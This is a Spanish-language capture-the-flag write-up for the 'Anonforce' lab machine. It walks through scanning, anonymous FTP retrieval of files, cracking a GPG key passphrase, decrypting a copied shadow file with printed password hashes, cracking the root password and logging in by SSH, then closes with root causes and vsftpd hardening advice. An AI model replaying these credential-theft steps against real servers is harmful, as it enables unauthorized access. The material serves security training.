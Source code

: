 # Anonforce
Máquina sencilla, nada fuera de lo común excepto tal vez el punto de PGP

Interesantes: PGP
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Aug 11 12:49 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
| drwx------    2 0        0           16384 Aug 11  2019 lost+found
| drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
| drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
| drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
| dr-xr-xr-x  100 0        0               0 Aug 11 12:49 proc
| drwx------    3 0        0            4096 Aug 11  2019 root
| drwxr-xr-x   18 0        0             540 Aug 11 12:49 run
| drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
| dr-xr-xr-x   13 0        0               0 Aug 11 12:49 sys
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.95.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
|   256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_  256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
```
## Enum

Tenemos un ftp login anonymous permitido esto nos permite leer archivos en la máquina sin ningún tipo de credenciales

Asi obtenemos la primera flag
```
>get /home/melodias/user.txt
```

## Privesc

Si seguimos buscando en el servidor desde el ftp encontramos el siguiente directorio en /
```
drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread
```
Dentro del mismo archivos de gpg
```
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
```
Descargamos ambos

Crackeamos el .asc usando gpg2john y tenemos que la pass es xbox360, ya solo nos queda importar la clave y con ella descifrar el .pgp, que es una copia del shadow de la maquina
```
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
```
Vamos a crackearlos

La password para el root es hikari, ya solo queda conectarnos y leer la root.txt
```
ssh root@10.10.90.218
```
# Que ha pasado aquí??
### FTP login anonymous habilitado
Una mala decisión en cuanto a la configuración en el servidor FTP por parte del administrador (habilitar el login anonymous) , nos permitio listar archivos de manera arbitraria dentro del servidor (aunque con unos privilegios limitados)
### Notread
La presencia de archivos potencialmente peligrosos en zonas donde otros usuarios puedan leer (aunque la llamemos notread) es negligente por parte de los administradores
### Password Police
La politica de contraseñas usada es poco fuerte, tanto para el cifrado gpg como para el propio root, lo que nos permite realizar un ataque por fuerza bruta exitoso con relativamente poco recursos

# Soluciones 
### Limitar el acceso anonimo
Si bien puede ser necesario mantener un servidor FTP con acceso anonimo, siempre es buena idea limitar las zonas en las que el usuario conectado mediante FTP puede acceder para ello siendo vsftpd podemos hacer lo siguiente
```
# Verificamos que este ajuste este asi chroot_local_user=YES
#Cambiamos el /home del user a una zona segura como puede ser /var/www/ftp
usermod --home /var/www/ftp username
```
